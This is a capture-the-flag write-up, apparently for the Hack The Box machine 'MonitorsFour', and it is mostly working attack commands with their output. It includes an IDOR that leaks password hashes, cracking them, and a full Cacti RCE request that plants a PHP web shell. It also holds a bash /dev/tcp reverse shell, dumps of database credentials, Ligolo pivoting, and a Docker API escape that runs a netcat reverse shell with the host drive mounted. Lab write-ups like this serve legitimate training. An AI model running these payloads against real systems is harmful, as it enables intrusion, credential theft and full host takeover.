





## Nmap Scan
1. All UDP port scan
```
sudo nmap -Pn 10.129.251.129 -sU -p- --min-rate 20000 -oN nmap/allUdpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-05 10:34 +08
Nmap scan report for 10.129.251.129
Host is up.
All 65535 scanned ports on 10.129.251.129 are in ignored states.
Not shown: 65535 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 8.84 seconds
```
2. All TCP Port Scan
```
sudo nmap -Pn 10.129.251.129 -sS -p- --min-rate 20000 -oN nmap/allTcpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-05 10:34 +08
Nmap scan report for 10.129.251.129
Host is up (0.22s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.26 seconds
```
3. Script and version scan
```
sudo nmap -Pn 10.129.251.129 -sCV -p80 --min-rate 20000 -oN nmap/scriptVersionScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-05 10:38 +08
Nmap scan report for 10.129.251.129
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://monitorsfour.htb/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.30 seconds
```
## Web App Research
1. Nothing interesting on the website.
2. Vhost fuzz
```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://monitorsfour.htb -H "Host:FUZZ.monitorsfour.htb" -fs 138
```
Output:
```
cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 206ms]
```
3. Fuzz directory
```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://monitorsfour.htb/FUZZ -ic -o htb_dir_fuzz.txt
```
Output:
```
login                   [Status: 200, Size: 4340, Words: 1342, Lines: 96, Duration: 213ms]
contact                 [Status: 200, Size: 367, Words: 34, Lines: 5, Duration: 217ms]
user                    [Status: 200, Size: 35, Words: 3, Lines: 1, Duration: 202ms]
static                  [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 202ms]
views                   [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 195ms]
forgot-password         [Status: 200, Size: 3099, Words: 164, Lines: 84, Duration: 200ms]
controllers             [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 437ms]
```
4. API fuzzing
```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://monitorsfour.htb/api/v1/FUZZ -ic -o htb_api_dir_fuzz.txt
```
Output:
```
user                    [Status: 200, Size: 35, Words: 3, Lines: 1, Duration: 446ms]
users                   [Status: 200, Size: 35, Words: 3, Lines: 1, Duration: 647ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 262ms]
auth                    [Status: 405, Size: 0, Words: 1, Lines: 1, Duration: 295ms]
reset                   [Status: 405, Size: 0, Words: 1, Lines: 1, Duration: 4471ms]
:: Progress: [87651/87651] :: Job [1/1] :: 95 req/sec :: Duration: [0:21:49] :: Errors: 0 ::
```
5. Ok interesting. Apparently, the `http://monitorsfour.htb/user?token=0` endpoint is vulnerable to IDOR. I tried a random value 123 but did not try 0. Wow.
```
http://monitorsfour.htb/user?token=0
```
Output:
```json
[
  {
    "id": 2,
    "username": "admin",
    "email": "admin@monitorsfour.htb",
    "password": "56b32eb43e6f15395f6c46c1c9e1cd36",
    "role": "super user",
    "token": "8024b78f83f102da4f",
    "name": "Marcus Higgins",
    "position": "System Administrator",
    "dob": "1978-04-26",
    "start_date": "2021-01-12",
    "salary": "320800.00"
  },
  {
    "id": 5,
    "username": "mwatson",
    "email": "mwatson@monitorsfour.htb",
    "password": "69196959c16b26ef00b77d82cf6eb169",
    "role": "user",
    "token": "0e543210987654321",
    "name": "Michael Watson",
    "position": "Website Administrator",
    "dob": "1985-02-15",
    "start_date": "2021-05-11",
    "salary": "75000.00"
  },
  {
    "id": 6,
    "username": "janderson",
    "email": "janderson@monitorsfour.htb",
    "password": "2a22dcf99190c322d974c8df5ba3256b",
    "role": "user",
    "token": "0e999999999999999",
    "name": "Jennifer Anderson",
    "position": "Network Engineer",
    "dob": "1990-07-16",
    "start_date": "2021-06-20",
    "salary": "68000.00"
  },
  {
    "id": 7,
    "username": "dthompson",
    "email": "dthompson@monitorsfour.htb",
    "password": "8d4a7e7fd08555133e056d9aacb1e519",
    "role": "user",
    "token": "0e111111111111111",
    "name": "David Thompson",
    "position": "Database Manager",
    "dob": "1982-11-23",
    "start_date": "2022-09-15",
    "salary": "83000.00"
  }
]
```
6. We can try to crack them
```
hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt --username 
```
Output:
```
admin:56b32eb43e6f15395f6c46c1c9e1cd36:wonderful1
```
## Cacti Vhost
1. This domain hosts a [cacti](https://www.cacti.net/) web app
	
2. Default credentials admin:admin and root:\<blank> does not work
3. Bruh I was just trying out passwords when `Marcus:wonderful1` worked. Password spray ftw.
4. This version of Cacti to vulnerable to 3 authenticated RCE
	1. https://github.com/Cacti/cacti/security/advisories/GHSA-c7rr-2h93-7gjf: Failed
	2. https://github.com/Cacti/cacti/security/advisories/GHSA-c5j8-jxj3-hh36: Did not try
	3. https://github.com/Cacti/cacti/security/advisories/GHSA-fxrq-fr7h-9rqq: Succeeded
5. First, we retrieve the CSRF token
	
Create a new graph template by sending this POST request
```http
POST /cacti/graph_templates.php?header=false HTTP/1.1
<SNIP>

__csrf_magic=<CHANGE-THIS>&name=PING+-+Advanced+Ping&graph_template_id=297&graph_template_graph_id=297&save_component_template=1&title=%7Chost_description%7C+-+Advanced+Ping&vertical_label=milliseconds&image_format_id=3&height=200&width=700&base_value=1000&slope_mode=on&auto_scale_opts=1&upper_limit=10&lower_limit=0&unit_value=&unit_exponent_value=1&unit_length=&right_axis=&right_axis_label=XXX%0Acreate+my.rrd+--step+300+DS%3Atemp%3AGAUGE%3A600%3A-273%3A5000+RRA%3AAVERAGE%3A0.5%3A1%3A1200%0Agraph+xxx2.php+-s+now+-a+CSV+DEF%3Aout%3Dmy.rrd%3Atemp%3aAVERAGE%20LINE1%3aout%3a%3c%3f%3dsystem(%24_GET%5b0%5d)%3b%3f%3e%0a&right_axis_format=0&right_axis_formatter=0&left_axis_formatter=0&tab_width=30&legend_position=0&legend_direction=0&rrdtool_version=1.7.2&action=save
```
Inject payload in `right_axis_label` parameter. This is the payload base64 decoded
```
XXX
create my.rrd --step 300 DS:temp:GAUGE:600:-273:5000 RRA:AVERAGE:0.5:1:1200
graph xxx2.php -s now -a CSV DEF:out=my.rrd:temp:AVERAGE LINE1:out:<?=system($_GET[0]);?>
```
To trigger the payload, navigate to Create > New Graphs > Choose any device > PING - Advanced Ping template and press Create
	
Then go to Graphs > Graph Name > \<device-name> - Advanced Ping
	
Our command is injected. If we don't see the output, press "Turn On Graph Debug Mode"
	
A simple Curl executes our web shell
```
curl http://cacti.monitorsfour.htb/cacti/xxx2.php?0=id
"time","uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)"
1772712600,"NaN"
```
To get a reverse shell,
```http
GET /cacti/xxx2.php?0=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.3/9999+0>%261' HTTP/1.1
```
## Shell as www-data
1. I realised that this might be a docker container
2. Getting configuration information
```
cat /var/www/html/cacti/include/config.php | grep -v '*\|^$\|#\|//'
```
Output:
```php
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'mariadb';
$database_username = 'cactidbuser';
$database_password = '7pyrf6ly8qx4';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
$poller_id = 1;
$url_path = '/cacti/';
$cacti_session_name = 'Cacti';
$cacti_db_session = false;
$disable_log_rotation = false;
$proxy_headers = null;
$i18n_handler = null;
$i18n_force_language = null;
$i18n_log = null;
$i18n_text_log = null;
```
3. Connect to the mariadb server
```
mysql -u cactidbuser -p -h mariadb
```
Output:
```sql
use cacti;
SELECT username,password,realm,full_name,email_address FROM user_auth;

+----------+--------------------------------------------------------------+-------+---------------+-------------------------+
| username | password                                                     | realm | full_name     | email_address           |
+----------+--------------------------------------------------------------+-------+---------------+-------------------------+
| admin    | $2y$10$wqlo06C4isr4q9xhqI/UQOpyM/n8EDzYl/GndqhDh/2LQihzPdHWO |     0 | Administrator |                         |
| guest    | 43e9a4ab75570f5b                                             |     0 | Guest Account |                         |
| marcus   | $2y$10$bPWlnZYLhoDUawu4x8vLAuCIaDbqIUe4s9t9HqFm/1gtbavD/eKGe |     0 | Marcus Haynes | marcus@monitorsfour.htb |
+----------+--------------------------------------------------------------+-------+---------------+-------------------------+
```
4. Try to crack this hash:
```
hashcat -a 0 -m 3200 '$2y$10$wqlo06C4isr4q9xhqI/UQOpyM/n8EDzYl/GndqhDh/2LQihzPdHWO' /usr/share/wordlists/rockyou.txt
```
- Cannot
5. /etc/passwd
```
cat /etc/passwd | grep -v 'nologin\|false'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
marcus:x:1000:1000::/home/marcus:/bin/bash
```
- `wonderful1` is not the linux password of marcus
6. Current processes
```
ss -tlnp
State       Recv-Q      Send-Q             Local Address:Port              Peer Address:Port      Process                                                   
LISTEN      0           511                      0.0.0.0:80                     0.0.0.0:*          users:(("nginx",pid=13,fd=9),("nginx",pid=12,fd=9))      
LISTEN      0           4096                  127.0.0.11:33115                  0.0.0.0:*                                                                   
LISTEN      0           4096                           *:9000                         *:*  
```
7. IP route
```
ip route
default via 172.18.0.1 dev eth0 
172.18.0.0/16 dev eth0 proto kernel scope link src 172.18.0.3
```
Let's do a ping sweep
```
for i in {1..254} ;do (ping -c 1 172.18.0.$i | grep "bytes from" &) ;done
```
- Damn no ping
8. Nginx info
```nginx
server {
        listen 80;
        server_name monitorsfour.htb;
        root /var/www/app;
        index index.php;
        access_log /var/log/nginx/landing_access.log;
        error_log  /var/log/nginx/landing_error.log;
        if ($host != monitorsfour.htb) {
                rewrite ^ http://monitorsfour.htb/;
        }
        location / {
                try_files $uri $uri/ /index.php?$query_string;
        }

        location ~ \.php$ {
                try_files $uri =404;
                fastcgi_pass 127.0.0.1:9000;
                fastcgi_index index.php;
                fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
                include fastcgi_params; 
        }
        location ~ /\.ht {
                deny all;
        }
}
server {
        listen      80;
        server_name cacti.monitorsfour.htb;
        root        /var/www/html;
        index       index.php;

        access_log  /var/log/nginx/cacti_access.log;
        error_log   /var/log/nginx/cacti_error.log;
        charset utf-8;
        gzip on;
        gzip_types text/css application/javascript text/javascript application/x-javascript image/svg+xml text/plain text/xsd text/xsl text/xml image/x-icon;

        location / {
                try_files $uri $uri/ /index.php?$query_string;
        }

        location /api/v0 {
                try_files $uri $uri/ /api_v0.php?$query_string;
        }

        location ~ .php {
                include fastcgi.conf;
                fastcgi_split_path_info ^(.+.php)(/.+)$;
                fastcgi_pass 127.0.0.1:9000;
        }

        location ~ /.ht {
                deny all;
        }
} 

```
9. Information in `/var/www/app`
```
www-data@821fbd6a43fa:~/app$ cat .env
DB_HOST=mariadb
DB_PORT=3306
DB_NAME=monitorsfour_db
DB_USER=monitorsdbuser
DB_PASS=f37p2j8f4t0r
```

```
mysql -u monitorsdbuser -p -h mariadb

MariaDB [(none)]> USE monitorsfour_db;
MariaDB [monitorsfour_db]> SELECT username,email,password FROM users;
+-----------+----------------------------+----------------------------------+
| username  | email                      | password                         |
+-----------+----------------------------+----------------------------------+
| admin     | admin@monitorsfour.htb     | 56b32eb43e6f15395f6c46c1c9e1cd36 |
| mwatson   | mwatson@monitorsfour.htb   | 69196959c16b26ef00b77d82cf6eb169 |
| janderson | janderson@monitorsfour.htb | 2a22dcf99190c322d974c8df5ba3256b |
| dthompson | dthompson@monitorsfour.htb | 8d4a7e7fd08555133e056d9aacb1e519 |
| test      | test@test.com              | 3b3e9bf9e01962fe4fb9ef658533392e |
+-----------+----------------------------+----------------------------------+
5 rows in set (0.001 sec)

```
- Nothing interesting here
10. We can read the user.txt from `/home/marcus`
```
www-data@821fbd6a43fa:/home/marcus$ cat user.txt
7b<SNIP>95
```
11. OS Information
```
www-data@821fbd6a43fa:/home/marcus$ cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 13 (trixie)"
NAME="Debian GNU/Linux"
VERSION_ID="13"
VERSION="13 (trixie)"
VERSION_CODENAME=trixie
DEBIAN_VERSION_FULL=13.1
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
www-data@821fbd6a43fa:/home/marcus$ uname -a
Linux 821fbd6a43fa 6.6.87.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun  5 18:30:46 UTC 2025 x86_64 GNU/Linux
```
- Interesting, WSL?
```
/var/www/html/cacti/lib/database.php
```
12. Ok, I loaded nmap onto the docker host
```
./nmap -Pn 172.18.0.1 -p- --min-rate 500
```
Output:
```
Starting Nmap 7.93SVN ( https://nmap.org ) at 2026-03-05 13:34 UTC
Nmap scan report for 172.18.0.1
Host is up (0.00027s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  unknown
111/tcp   open  unknown
3306/tcp  open  unknown
51579/tcp open  unknown
```

```
./nmap -Pn 172.18.0.2 -p- --min-rate 500
```
Output:
```
Starting Nmap 7.93SVN ( https://nmap.org ) at 2026-03-05 13:35 UTC
Nmap scan report for mariadb.docker_setup_default (172.18.0.2)
Host is up (0.00038s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE
3306/tcp open  unknown
```
13. Let's access the mysql server
```
mysql -u cactidbuser -p -h 172.18.0.1
mysql -u cactidbuser -p -h 172.18.0.2
```
- Both are the same
14. I will set up Ligolo
Attacker host
```
ip tuntap add user root mode tun ligolo
ip link set ligolo up
sudo ./proxy -selfcert
```
On the victim machine, 
```
./agent -connect 10.10.14.3:11601 -ignore-cert
```
Add route on attacker host
```
sudo ip route add 172.18.0.0/24 dev ligolo
ip route list
```
15. Owh interesting, this docker desktop is vulnerable to [CVE-2025-9074 Docker RCE](https://blog.qwertysecurity.com/Articles/blog3)
First, we check what images are present on the machine.
```
curl http://192.168.65.7:2375/images/json
```
Output:
```json
[{"Containers":1,"Created":1762794130,"Id":"sha256:93b5d01a98de324793eae1d5960bf536402613fd5289eb041bac2c9337bc7666","Labels":{"com.docker.compose.project":"docker_setup","com.docker.compose.service":"nginx-php","com.docker.compose.version":"2.39.1"},"ParentId":"","Descriptor":{"mediaType":"application/vnd.oci.image.index.v1+json","digest":"sha256:93b5d01a98de324793eae1d5960bf536402613fd5289eb041bac2c9337bc7666","size":856},"RepoDigests":["docker_setup-nginx-php@sha256:93b5d01a98de324793eae1d5960bf536402613fd5289eb041bac2c9337bc7666"],"RepoTags":["docker_setup-nginx-php:latest"],"SharedSize":-1,"Size":1277167255},{"Containers":1,"Created":1762791053,"Id":"sha256:74ffe0cfb45116e41fb302d0f680e014bf028ab2308ada6446931db8f55dfd40","Labels":{"com.docker.compose.project":"docker_setup","com.docker.compose.service":"mariadb","com.docker.compose.version":"2.39.1","org.opencontainers.image.authors":"MariaDB Community","org.opencontainers.image.base.name":"docker.io/library/ubuntu:noble","org.opencontainers.image.description":"MariaDB Database for relational SQL","org.opencontainers.image.documentation":"https://hub.docker.com/_/mariadb/","org.opencontainers.image.licenses":"GPL-2.0","org.opencontainers.image.ref.name":"ubuntu","org.opencontainers.image.source":"https://github.com/MariaDB/mariadb-docker","org.opencontainers.image.title":"MariaDB Database","org.opencontainers.image.url":"https://github.com/MariaDB/mariadb-docker","org.opencontainers.image.vendor":"MariaDB Community","org.opencontainers.image.version":"11.4.8"},"ParentId":"","Descriptor":{"mediaType":"application/vnd.oci.image.index.v1+json","digest":"sha256:74ffe0cfb45116e41fb302d0f680e014bf028ab2308ada6446931db8f55dfd40","size":856},"RepoDigests":["docker_setup-mariadb@sha256:74ffe0cfb45116e41fb302d0f680e014bf028ab2308ada6446931db8f55dfd40"],"RepoTags":["docker_setup-mariadb:latest"],"SharedSize":-1,"Size":454269972},{"Containers":0,"Created":1759921496,"Id":"sha256:4b7ce07002c69e8f3d704a9c5d6fd3053be500b7f1c69fc0d80990c2ad8dd412","Labels":null,"ParentId":"","Descriptor":{"mediaType":"application/vnd.oci.image.index.v1+json","digest":"sha256:4b7ce07002c69e8f3d704a9c5d6fd3053be500b7f1c69fc0d80990c2ad8dd412","size":9218},"RepoDigests":["alpine@sha256:4b7ce07002c69e8f3d704a9c5d6fd3053be500b7f1c69fc0d80990c2ad8dd412"],"RepoTags":["alpine:latest"],"SharedSize":-1,"Size":12794775}]
```
The available docker tags are
```
"docker_setup-nginx-php:latest"
"docker_setup-mariadb:latest"
"alpine:latest"
```
Then, we create a new container.
```sh
curl -H 'Content-Type: application/json' \
--data '{"Image":"alpine","Cmd":["busybox","nc","10.10.14.3", "9998", "-e", "sh"],"HostConfig":{"Binds":["/mnt/host/c:/host_root"]}}' \
-o - http://192.168.65.7:2375/containers/create > create.json
```
Output:
```
cat create.json 
{"Id":"d0d7c9e6034ab1c403345fb29cb57d5a975a2e7a3fe7030bf43932cc9d462836","Warnings":[]}
```
To trigger the reverse shell,
```
cid=$(cut -d'"' -f4 create.json)
curl --data '' -o - http://192.168.65.7:2375/containers/$cid/start
```
Output:
```
nc -lvnp 9998
listening on [any] 9998 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.252.49] 59231
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```
- We are root!